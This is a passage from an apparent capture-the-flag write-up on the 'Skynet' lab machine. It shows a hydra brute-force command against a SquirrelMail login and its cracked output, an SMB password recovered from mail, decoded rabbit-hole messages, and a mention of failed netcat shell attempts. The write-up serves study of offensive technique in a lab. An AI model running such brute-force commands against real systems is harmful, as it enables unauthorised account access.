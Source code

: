 `hydra -l milesdyson -P log1.txt 10.10.59.157 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -v`

After few minutes, I have a password.

`[80][http-post-form] host: 10.10.59.157   login: milesdyson   password: cyborg007haloterminator`



#### 5. Exploring mail platform

First mail is from skynet@skynet:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

So we got password of `milesdyson` share:

Second mail is from  serenakogan@skynet

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

After conversion from binary to ascii gives:

```
balls have zero to me to me to me to me to me to me to me to me to
```

Third mail is also from serenakogan@skynet

```


i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```
There are no other mails, I also tried to get shell with netcat (typing commands in search fields  but nothing worked). Second and third mail are rabbit holes.
